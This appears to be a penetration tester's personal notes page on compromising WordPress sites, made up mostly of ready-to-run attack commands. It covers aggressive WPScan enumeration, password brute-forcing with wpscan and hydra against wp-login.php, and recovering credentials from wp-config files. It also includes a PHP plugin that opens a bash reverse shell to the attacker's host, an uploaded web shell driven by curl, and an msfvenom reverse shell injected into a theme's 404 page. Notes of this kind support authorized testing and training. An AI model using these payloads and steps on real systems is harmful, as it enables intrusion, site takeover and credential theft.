 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### WPScan
```bash - kali
wpscan -e ap,at,tt,cb,dbe,u,m --detection-mode aggressive --plugins-detection aggressive -t 30 --url http://$TARGET
```

#### Password Cracking
```bash - kali
wpscan --url http://$TARGET -U admin -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
```

#### wp-config.php.swp file
```bash - kali
vim -r .wp-config.php.swp
```

```bash - kali
esc
```

```bash - kali
:w wp-config.txt
```

Now viewing the contents are much easier in wp-config.txt file.

#### WORDPRESS PLUGIN SHELL

[https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell](https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)

```bash - kali
mousepad reverseshell-plugin.php
```

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: [http://www.sevenlayers.com](http://www.sevenlayers.com)
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");

?>
```

```bash - kali
zip reverseshell-plugin.zip ./reverseshell-plugin.php
```

![[rlwrap]]

Plugins > Add new > Upload > Install now
* If this fails, try doing [[Wordpress#Webshell method]]

Now just click on "Activate Plugin" and done!

#### Webshell method
```
cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
```

```
sudo zip plugin-shell.zip plugin-shell.php
```

WordPress > Plugins > add New > Upload > Browse > plugin-shell.zip > Install now

Even if this says it failed to install, STILL RUN THE CURL COMMAND!
![[Pasted image 20220601122227.png]]

```
curl http://$TARGET/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
```

#### php template shell
```bash - kali
msfvenom -p php/reverse_php lhost=$KALI lport=443 -f raw
```

In WordPress, go to Appearance > Theme Editor, choose a page to edit, here we try the 404 page.

After updating, just access a non-existing page to trigger reverse shell.

#### Finding usernames & passwords:
```bash - kali
cd /var/www/html/wordpress
```

```bash
cat wp-config.php | grep DB
```

#### hydra command against wordpress:

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hydra#Hydra against WordPress]]

FROM BURP:
>log=webdeveloper&pwd=root&wp-submit=Log+In&redirect_to=http%3A%2F%2F$TARGET%2Fwp-admin%2F&testcookie=1

```bash - kali
hydra -l webdeveloper -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt $TARGET -s 80 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -f
```

![[Port 3306 - MySQL ~#MySQL to Wordpress password]]

[[3._LFI RFI#Wordpress config php]]